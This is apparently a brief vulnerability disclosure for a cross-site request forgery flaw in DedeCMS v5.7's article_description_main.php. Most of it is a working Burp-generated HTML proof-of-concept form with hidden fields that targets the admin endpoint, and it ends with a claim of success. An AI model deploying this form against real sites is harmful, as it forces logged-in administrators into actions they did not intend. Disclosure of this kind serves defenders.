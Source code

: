 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /dede/article_description_main.php
![1](https://github.com/777erp/cms/assets/113673221/7bdd136c-f07f-4ed6-862e-7f5c84a7d255)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/article_description_main.php" method="POST">
      <input type="hidden" name="channel" value="1" />
      <input type="hidden" name="dsize" value="240" />
      <input type="hidden" name="table" value="dede&#95;addonarticle" />
      <input type="hidden" name="field" value="body" />
      <input type="hidden" name="msize" value="512" />
      <input type="hidden" name="pagesize" value="100" />
      <input type="hidden" name="sid" value="" />
      <input type="hidden" name="eid" value="" />
      <input type="hidden" name="dojob" value="des" />
      <input type="hidden" name="Submit" value="�&#188;&#128;�&#167;&#139;�&#137;&#167;�&#161;&#140;�&#136;&#134;�&#158;&#144;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>



```

![1](https://github.com/777erp/cms/assets/113673221/ed0b41e1-5407-4339-8e04-87c44a31c780)


Successed

![3](https://github.com/777erp/cms/assets/113673221/5a7aeb4e-e834-4e41-b71d-3f998105e953)

